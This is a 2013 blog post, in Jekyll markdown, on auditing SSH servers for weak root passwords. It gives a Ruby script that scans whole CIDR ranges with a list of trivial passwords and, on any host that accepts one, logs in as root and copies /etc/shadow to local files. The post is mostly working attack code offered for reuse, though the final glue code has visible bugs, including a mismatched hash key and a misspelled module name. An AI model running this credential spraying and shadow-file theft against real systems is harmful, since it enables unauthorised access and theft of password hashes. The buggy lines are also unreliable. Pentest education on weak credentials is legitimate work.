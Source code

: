 ```yaml
---
layout: post
title: "Exploiting SSH weak passwords the ruby way"
date: 2013-02-15 08:08
comments: true
published: true
featured: false
tags: breakers pentest codesake ruby ssh password sysadmins
thumb: ssh.png
level:
hn: 
rd: 
---
```


Even before starting writing complex input filters to manage your users' input,
you **must** care about the password you use on your servers.
If they are poor, no application security on Earth would save you against a break-in.

<!-- more -->

## Scenario

You are pentesting your customer's network. A lot of servers are answering to
SSH protocol in order to allow remote management. No problem with this, of
course you may want to deal with remote management also using some _identity
and access management_ product in order to centralize admin login and to have a
truly random root password on each server.

There are some well known passwords every not-so-security-aware sysadmin would
use to protect root account:

* God
* Sex
* Password
* root
* 12345
* 1q2w3e4r

I'm not jocking. They are still here. People still use weak passwords since
they are quick to memorize and to type on the keyboard. 

The funny bit here is that most of time is spent by root to be idle looking at
the _ls -l_ command output. Grin.

Do you need a very quick script to check for root default credentials? I'll
give you one I wrote and that I found useful in a lot of security assessments.

## Implementation

What we need here is to connect to a given host on a given port using the SSH
protocol. Our script must be flexible enough to accept an arbitrary host and
also arbitrary ports. System administrators may have changed SSH default port
to their server, so we would parameterize it instead of hardcoding "22" in our
script.
We need also a way to manage IP addresses notation, in order to scan whole
networks without specifying every single host.

We're lucky enough, all we need is on standard library. We just want to install
the [net-ssh](https://rubygems.org/gems/net-ssh) ruby gem.

``` ruby 
$ gem install net-ssh
```

Our script would read a config file for target SSH ports and trivial password
to use. We won't code an ssh bruteforcer, we just want to check if some hosts
in the environment have very trivial password values for root account.

``` ruby a very basic read_conf method
require 'yaml'

...

def self.read_conf(conf_file=nil)
  
  (conf_file.nil?)? file='./ssh_takedown.yaml' : file=conf_file
  (File.exists?(file))? config = YAML.load_file(file) : config = {"config"=>{"ports_to_scan"=>"22", "password_list"=>"root,password"}}

  config
end

# A basic configuration file...
#
# config:
#  ports_to_scan:  "22,2022,3022"
#  password_list:  "God,sex,xxx,Password,root,12345,1q2w3e4r"

# ... and its usage...
#
# 1.9.3-p194 :009 > require 'yaml'
# => true 
# 1.9.3-p194 :010 > read_conf("./con.yaml")
# => {"config"=>{"ports_to_scan"=>"22,2022,3022", "password_list"=>"God,sex,xxx,Password,root,12345,1q2w3e4r"}} 
# 1.9.3-p194 :013 > ports = conf["config"]["ports_to_scan"].split(',')
# => ["22", "2022", "3022"] 

``` 

Starting from ruby 1.9 there is a great class in the standard library taking
care of all the stuff about ip addresses.
The idea here is to use this standard library class to manage how inputs in
term of VLANs.

The to_range method helps us in create a list of single host IPAddr classes
that can be used in a loop.

``` ruby the ipaddr facility 
require 'ipaddr'

net = IPAddr.new("192.168.1.0/24")
net.to_range # => #<IPAddr: IPv4:192.168.1.0/255.255.255.0>..#<IPAddr: IPv4:192.168.1.255/255.255.255.0>
net.to_range.count # => 256
``` 

Our main class would take config values, splits the comma separated options and
be ready for the takeover.

``` ruby Codesake::SSH::Takedown class

require 'ipaddr'
require 'net/ssh'

module Codesake
  module SSH
    class Takedown

      attr_reader :ports
      attr_reader :passwds
      attr_reader :target
      attr_reader :results

      def initialize(target, config)
        @ports = conf_to_ports(config)
        @passwds = conf_to_passwds(config)
        @target = target
      end

      def analyse
        @results = []


        @target.to_range.each do |host|
          @passwds.each do |pass|
            @ports.each do |port|
              @results << {:host=>host.to_s, :port=>port, :pass=>pass} if connect(host.to_s, port, pass)
            end
          end
        end  
        @results
      end

      def takedown
        @results.each do |result|
          steal(result[:host], result[:port], result[:password])
        end
      end
      
      private 

      def steal(host, port, password)
       begin
          ssh = Net::SSH.start(host, "root", {:password=>password, :port=>port, :timeout=>3})
          data = ssh.exec!("cat /etc/shadow")
          f_d = File.new(host+"_shadow", "w") 
          f_d.write(data)
          f_d.close
          ssh.close
          ret = true
        rescue => e
          ret = false
        end
        ret
      end

      def connect(host, port, password) 
        begin
          ssh = Net::SSH.start(host, "root", {:password=>password, :port=>port, :timeout=>3})
          ssh.close
          ret = true
        rescue => e
          ret = false
        end

      end 
      
      def conf_to_ports(config)
        config["config"]["ports_to_scan"].split(',')
      end

      def conf_to_passwds(config)
        config["config"]["password_list"].split(',')
      end
      
    end
  end
end

``` 

Now you can glue pieces together.


``` ruby a ssh weak passwords detect script... you can star from here and improve it to fit best your needs
require 'yaml'
require 'ipaddr'

# defaulting values here
conf = Codesake::Config.read_conf
net = ARGV[0]

Kernel.exit(-1) if net.nil? or net.empty?

ips  =IPAddr.new(net)
engine = Codesale::SSH::Takedown.new(ips, conf)
results = engine.analyse
  
# steal /etc/shadow
engine.takedown
```

Now we can call this script specifying networks in the [CIDR notation](http://en.wikipedia.org/wiki/CIDR_notation) and having shadow files
to be saved in the current directory.

## Off by one

Security starts from protecting your hosts with strong passwords for super user
account. Period. No matter how good is your web code, if you leave the main
door opened, your data are compromised as well as your code is suffering by SQL
Injections.

Now, an announcement. Next April I'll talk at [Railsberry 2013](http://railsberry.com)
on about using ruby in a deep web application [penetration test](http://railsberry.com/speakers#paolo).
It would be a great conference and I'm very excited about being part of it.
There will be a lot of great software engineer... I hope they'll love some
security rants :)

